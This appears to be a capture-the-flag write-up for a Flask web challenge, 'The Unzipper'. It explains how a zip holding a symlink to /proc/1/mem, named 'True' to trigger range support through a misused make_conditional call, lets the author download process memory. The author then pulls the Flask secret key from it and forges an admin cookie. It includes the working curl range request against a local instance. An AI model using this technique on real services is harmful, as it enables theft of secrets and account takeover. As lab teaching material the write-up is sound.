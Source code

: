 # The Unzipper

This challenge was just insane and I will not elaboraty on to much detail. Here is how I solved it:

You can't inject anything into the site. You just need to upload Zip files. Everything else is just fake. The `Report the files to admin` button is just bait imo.

The main magic tricks here are: zips, linux file links and and incorrect implementation of `send_from_directory(extraction_dir, filename, as_attachment=True, download_name=filename).make_conditional(request, filename, filesize), 200`.

But lets start:

First we need to create a link to the `/proc/1/mem` file with `ln -s /proc/1/mem`. It is '1' because it's basically the only process running inside this docker container. We have to use `True` as the file name because of the incorrect impplementation of `send_from_directory`:

```python
def make_conditional(
        self,
        request_or_environ: WSGIEnvironment | Request,
        accept_ranges: bool | str = False,
        complete_length: int | None = None,
    ) -> Response:
```

Here we can see, that originally the `filename` is actually the `accept_ranges` bool. And when setting the filename to `True`, it will accept ranges.

The Zip now has to 'act' as if the symlink inside has the sice of the largest range number. Because of this code:

```python
if file['name'] == filename:
            filesize = file['length']
            break
    return send_from_directory(extraction_dir, filename, as_attachment=True, download_name=filename).make_conditional(request, filename, filesize), 200
```

We can estimate the range by just brute forcing or by running it locally and get a shell into the local version and then running `cat /proc/1/maps`. This will print out the memory regions. I'm not sure in which region the secret key will be inside, so you have to try it a few times in the worst case. For exanoke:

```
578f2000-57c0a000 rw-p 00000000 00:00 0                                  [heap]
f5c40000-f5d00000 rw-p 00000000 00:00 0
f5d00000-f5d9a000 rw-p 00000000 00:00 0
f5d9a000-f5e00000 ---p 00000000 00:00 0
```

This (maybe) needs to be converted to decimal numbers. 

Then we need to upload it. And can download the range of the mem.

```bash
curl -G -v -H "Range: bytes=4124581888-4288876544" http://localhost:1337/api/download/fe178e1605ea77d0c96b4c72308ddff21c8bb71ef66c9b41/True --output memout.bin
```

With this we can download the internal memory of the process and therefor extract the Secret key.

When you open it, you can try to look for `Adding some entropy: ` since this is the start of the key. Here is an example screenshot ![Screenshot](image.png)

With the secret key, we can generate an admin cookie and go to the `/api/flag` site and receive the flag.

The Flag: `S2G{7h15_CH4113N63_W45_700_D4mn_D1ff1CU17}`

